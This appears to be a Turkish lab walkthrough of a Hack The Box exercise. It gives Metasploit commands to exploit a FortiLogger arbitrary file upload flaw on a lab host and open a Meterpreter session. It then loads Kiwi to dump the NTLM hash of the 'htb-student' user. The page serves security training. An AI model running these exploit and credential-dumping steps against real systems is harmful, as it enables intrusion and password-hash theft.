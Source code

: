     Buradaki bilgilerden port numarası 5000 olan servisi kullanacağız. Web tarayıcısında [http://10.129.138.65:5000](http://10.129.138.65:5000) adresine gidersek (HTTP olacak HTTPS değil) FORTILOGGER isimli bir sayfa bizi karşılayacak. Bu bilgiyi kullanarak Msfconsole içerisinde aşağıdaki aramayı gerçekleştir:

    ```text
    search forti
    ```

    Çıkan sonuçlardan ilgili exploit modülünü kullan:

    ```text
    use exploit/windows/http/fortilogger_arbitrary_fileupload
    ```

    RHOSTS değerini ayarla:

    ```text
    set RHOSTS 10.129.203.52
    ```

    LHOST değerini ayarla:

    ```text
    set LHOST tun0
    ```

    Exploit başlat:

    ```text
    exploit
    ```

    Aşağıdaki Meterpreter komutunu çalıştır:

    ```text
    getuid
    ```

    Bir sonraki soruda bu oturumu kullanmamız gerekecek, o yüzden Msfconsole açık kalmalı.

```text
Retrieve the NTLM password hash for the "htb-student" user. Submit the hash as the answer.
```

??? tip "Steps"

    Bu soruyu çözebilmek için önceden edindiğimiz oturumu kullanacağız. Öncelikle ilgili modülü yüklemek için aşağıdaki komutu çalıştır:

    ```text
    load kiwi
    ```

    Ardından aşağıdaki komutu çalıştır:

    ```text
    lsa_dump_hash
    ```

